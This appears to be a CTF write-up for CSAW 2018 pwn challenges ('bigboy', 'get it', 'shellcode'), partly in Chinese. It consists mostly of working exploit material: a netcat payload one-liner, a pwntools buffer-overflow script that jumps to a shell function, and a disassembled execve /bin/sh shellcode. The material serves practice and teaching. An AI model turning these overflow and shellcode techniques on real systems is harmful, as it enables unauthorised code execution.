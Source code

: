 ## bigboy

payload: `(printf "AAABBBCCCDDDEEFFFGGG\xee\xba\xf3\xca";cat)|nc pwn.chal.csaw.io 9000`

## get it

```pythno
#!/usr/bin/env python2
from pwn import *
DEBUG=False
 
if DEBUG:
	p = process("./get_it")
	pause()
else:
	p = remote('pwn.chal.csaw.io',9001)
 
give_shell = 0x4005B6
 
payload = "A"*40
payload += p64(give_shell)
 
p.sendline(payload)
p.interactive()
```

## shellcode

### solve1

使用的shellcode。

```
http://shell-storm.org/shellcode/files/shellcode-806.php
```

首先使用radare2来判断每一个指令的开始和结束:

```shell
ctf@ctf-virtual-machine:~/Desktop/casw/pwn$ rasm2 -k linux -b 64 -D "31c048bbd19d9691d08c97ff48f7db53545f995257545eb03b0f05"
0x00000000   2                     31c0  xor eax, eax
0x00000002  10     48bbd19d9691d08c97ff  mov rbx, 0xff978cd091969dd1
0x0000000c   3                   48f7db  neg rbx
0x0000000f   1                       53  push rbx
0x00000010   1                       54  push rsp
0x00000011   1                       5f  pop rdi
0x00000012   1                       99  cdq
0x00000013   1                       52  push rdx
0x00000014   1                       57  push rdi
0x00000015   1                       54  push rsp
0x00000016   1                       5e  pop rsi
0x00000017   2                     b03b  mov al, 0x3b
0x00000019   2                     0f05  syscall
```
